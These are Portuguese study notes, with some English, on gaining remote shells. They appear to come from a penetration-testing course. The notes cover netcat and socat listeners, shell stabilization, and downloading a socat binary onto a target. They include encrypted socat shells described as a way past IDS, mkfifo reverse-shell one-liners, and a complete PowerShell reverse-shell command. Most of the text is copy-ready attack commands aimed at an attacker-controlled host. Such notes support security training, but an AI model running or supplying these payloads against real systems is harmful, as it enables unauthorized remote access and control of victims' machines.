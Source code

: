 ## Reverse shells
quando o alvo é obrigado a executar um código que conecta de volta à máquina atacante. Antes disso, o atacante deve criar um listener.  Reverse shells são uma boa forma de passar pelas regras de firewall que podem impedir que você conecte arbitrariamente às portas do alvo. A desvantagem é que a sua rede deve estar configurada para aceitar a shell.

sintaxe para começar um listener no linux:
- ```nc -lvnp <port-number>```
	- l marca como listener
	- v verbose
	- n netcat não vai usar host names nem DNS
	- p indica que a porta vem em seguida
- É uma boa ideia usar portas como: 80,443,53 por serem mais fáceis de passar pelo firewall do alvo

## Bind shells
São quando o código executado no alvo é usado para iniciar um listener conectado diretamente à uma shell no alvo. Pode-se conectar a ela pela internet. O lado negativo é que o firewall pode atrapalhar.

sintaxe para conectar a um listener:
``nc <target-ip> <chosen-port>``

Elas podem ser:
- interativas: Permitem que você interaja com o programa depois de executa-lo
- não-interativas: Não permitem que você interaja com o programa depois de executa-lo

## Estabilização
Netcat shells costumam ser bem instáveis, já que são processos rodando dentro de um terminal ao invés de terminais genuínos. Então, desenvolveram-se técnicas para estabilizar essas shells.

### Python
Funciona apenas em linux porque praticamente todas tem python instalado por padrão.
1. ```python -c 'import pty;pty.spawn("/bin/bash")'``` : Usa o python para instalar uma shell um pouco melhor
2. ``export TERM=xterm`` da acesso a comandos term como: clear
3. Background the shell com ctrl + Z e usa ``stty raw -echo; fg``: isso da acesso a autocomplete, setas e crtl + C para matar processos e ai coloca a shell em primeiro plano
Obs: se a shell morrer não vai aparecer no terminal pois o echo foi desativado. Para resolver digite ``reset`` e aperte enter

### rlwrap
programa feito para dar acesso a comandos do terminal, como histórico, tab autocompletion e setas. Ainda não funciona o crtl + C dentro do terminal.
1. instala o rlwrap com ``sudo apt install rlwrap``
2. o listener tem que ser invocado com: ``rlwrap nc -lvnp <port>``
3. Ctrl + Z e ``stty raw -echo; fg`` estabiliza e entra novamente na shell, possibilite o uso de crtl + C pra matar processos

### Socat
Para alcançar essa estabilização primeiro precisamos transmitir um binário socat estático compilado para a máquina alvo. Uma forma simples de alcançar isso é utilizando um webserver na máquina atacante dentro do diretório que já contém o binário compilado
1. ``sudo python3 -m http.server 80`` inicia o servidor na máquina atacante
2. ``wget <LOCAL-IP>/socat -O /tmp/socat`` na máquina alvo, pelo shell netcat, baixe o arquivo. No exemplo usamos wget, mas pode ser o curl

Em um ambiente windows o mesmo pode ser feito com uma powershell utilizando Invoke-WebRequest ou webrequest dependendo da versão do powershell instalada. 
1. ``Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe``

O socat faz a ligação entre 2 pontos quaisquer.
#### Reverse Shells
Reverse shell listener básico em um socat
``socat TCP-L:<port> -``

No windows (alvo):
``socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes``

No linux (alvo):
``socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"``

#### Bind Shells

No linux (alvo):
``socat TCP-L:<PORT> EXEC:"bash -li"``

No windows (alvo):
``socat TCP-L:<PORT> EXEC:powershell.exe,pipes``

Na máquina atacante:
``socat TCP:<TARGET-IP>:<TARGET-PORT> -``

#### técnica mais estável
Essa só funciona em linux.

Sintaxe do listener:
``socat TCP-L:<port> FILE:`tty`,raw,echo=0``

Use esse comando na máquina alvo:
``socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane``

- **pty:** aloca um pseudo terminal na máquina -- parte do processo de atualização
- **stderr:** todos os erros mostram na shell
- **sigint:** Crtl + C pode ser usado para matar processos
- **setsid:** cria um processo na nova questão
- **sane:** estabelece o terminal
#### Encrypted Shells
Podem ser criadas shells encriptadas para passar IDS.

Precisamos gerar um certificado para criar shells encriptadas.
``openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt``
Esse comando gera uma chave RSA com 2048 bits valido por um ano. Precisamos combinar os dois arquivos em um único ``.pem`` file:
``cat shell.key shell.crt > shell.pem``

Para setar a reverse shell podemos usar:
``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -``

Para conectar de volta:
``socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash``

##### Para bind
alvo:
``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes``

Atacante:
``socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -``

### Outros pontos
Com qualquer uma das técnicas acima, é útil mudar o tamanho do seu terminal tty (_teletypewriter_).
1. ``stty -a``
2. ``stty rows <number>``
3. ``stty cols <number>``

## Common Shell Payloads
Em algumas verões do netcat (inclindo o nc.exe windows versão incluida no kali em ``/usr/share/windows-resources/binaries`` e a versão usada no kali ``netcat-traditional``) tem a opção ``-e``  que permite executar o processo na conexão. Por exemplo no listener:
``nc -lvnp <PORT> -e /bin/bash``
Conectar no listener acima com o netcat resulta em uma bind shell no alvo.

igualmente pra uma reverse shell:
``nc <LOCAL-IP> <PORT> -e /bin/bash``
(geralmente não é incluída na maior parte das versões do netcat por ser considerado inseguro).  Isso funciona perfeitamente no windows, pois o binário é necessário de qualquer forma.

no linux usamos:
``mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

Para uma reverse shell:
``mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``

Para um windows server moderno, geralmente é requerido uma Powershell, para isso use:
``powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"``


[PayloadsAllTheThings/Methodology and Resources/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)











